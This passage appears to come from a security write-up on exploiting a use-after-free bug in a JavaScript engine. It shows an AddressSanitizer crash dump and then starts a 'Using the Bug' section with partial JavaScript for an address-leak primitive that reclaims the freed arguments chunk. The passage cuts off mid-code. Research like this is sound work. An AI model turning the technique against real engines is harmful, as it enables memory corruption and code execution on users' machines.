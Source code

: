 ```python
  0x502000003600: fa fa fd fa fa fa fd fa fa fa fd fa fa fa fd fa
  0x502000003680: fa fa 00 00 fa fa 00 fa fa fa 00 fa fa fa 00 fa
  0x502000003700: fa fa 00 fa fa fa fd fa fa fa fd fa fa fa 00 fa
  0x502000003780: fa fa 00 00 fa fa 00 fa fa fa 00 00 fa fa 00 00
  0x502000003800: fa fa fd fd fa fa fd fa fa fa 00 fa fa fa 00 fa
=>0x502000003880: fa fa 00 00 fa fa 00 00 fa fa 00 00 fa fa[fd]fd
  0x502000003900: fa fa 00 fa fa fa 00 fa fa fa 00 00 fa fa 00 fa
  0x502000003980: fa fa 00 fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x502000003a00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x502000003a80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x502000003b00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==8726==ABORTING

```

## Using the Bug

UAFs are good to work with. In this case, the UAF happens in the glibc memory, rather than in a place where a lot of objects are. The memory mainly holds buffers, which makes it harder to find the right objects.

### Finding an Object

We can make a way to find the address of an object by putting a pointer inside the old `arguments_list` memory, then reading the
[`arguments`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/arguments)
object from inside the constructor.

Here's how we can find the address of an object:

```js
let target = {}
let linked = new FinalizationRegistry(() => {})

function meow() {}

let handler = {
  get() {
    // [2]
    // allocate more than 0x30 to free the chunk
    meow(0x1, 0x2, 0x3, 0x4, 0x5, 0x6)

    // [3]
    // allocate the free'd chunk, with pointer to the target
```